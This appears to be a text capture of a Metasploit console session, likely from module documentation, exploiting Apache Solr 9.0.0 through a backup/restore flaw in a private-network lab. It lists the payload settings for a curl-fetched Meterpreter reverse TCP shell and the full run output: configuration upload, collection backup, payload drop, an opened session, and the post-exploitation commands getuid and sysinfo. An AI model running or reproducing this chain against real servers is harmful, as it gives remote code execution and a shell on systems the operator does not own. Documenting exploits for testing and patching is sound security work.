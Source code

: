 ```
   TARGETURI  solr             no        Path to Solr
   USERNAME   solr             no        Solr username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      dkNrXBirxJx      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.5.0-26-generic
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.132
[+] Successfully dropped the payload
[*] Meterpreter session 14 opened (172.16.199.1:4444 -> 172.16.199.132:41742) at 2024-04-01 16:25:16 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 172.21.0.3
OS           : Ubuntu 20.04 (Linux 6.5.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
